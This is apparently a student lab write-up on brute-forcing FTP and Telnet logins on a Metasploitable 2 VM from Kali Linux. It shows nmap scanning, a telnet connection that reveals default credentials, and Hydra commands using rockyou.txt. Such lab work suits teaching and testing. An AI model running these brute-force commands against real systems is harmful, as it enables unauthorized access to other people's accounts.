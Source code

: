 # Lab 1: Cryptographic Attacks: Brute Force and Traffic Analysis on Network Protocols

## 🎯 Objective
The goal of this lab is to explore the vulnerabilities of common network protocols (FTP, TELNET, SSH, HTTP) by performing brute force attacks to recover passwords and then using those credentials to sniff network traffic. Will also analyze the security of these protocols and propose mitigation strategies.

---

## 🛠️ Requirement

- Kali Linux       (Attacker)
- Metasploitable 2 (Target machine)
- Wordlist          (rockyou.txt with "msfadmin")
- Nmap
- Hydra
---

## 🔍 Lab Tasks

### 1. Enumerate the Vulnerable VM to Discover Usernames

#### ✅ Objective:
- Identify potential usernames for brute force attacks.
- Document the usernames found.

#### 🔧 Steps Taken:

- Performed a port scan using Nmap:
  ```
  nmap -sV -p 21,23,22,80 [target-ip]
  ```
  ![image](nmap-scan-open-port-on-target-machine.png)

- Connected manually to Telnet to observe any information:
  ```
  telnet [target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/3c80d78e-9904-4c9d-a4ab-e29bcb667df0)
  > Here we got the username and password: ```msfadmin:msfadmin```. Bear in mind, we often do not get the credentials as easily as this.


---
### 2.  Perform Brute Force Attacks
#### 2.1. FTP, TELNET, and SSH
- Use Hydra perform brute force attacks against the following protocols:
- FTP
  ```
  hydra -L rockyou.txt -P rockyou.txt ftp://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/136b15fc-d644-4f87-b0c3-ba123adb8c57)
  
- TELNET
  ```
  hydra -L rockyou.txt -P rockyou.txt telnet://[target-ip]
  ```
  ![image](https://github.com/user-attachments/assets/5ba8dca6-6fd2-48b3-86a8-adedb3d78b46)



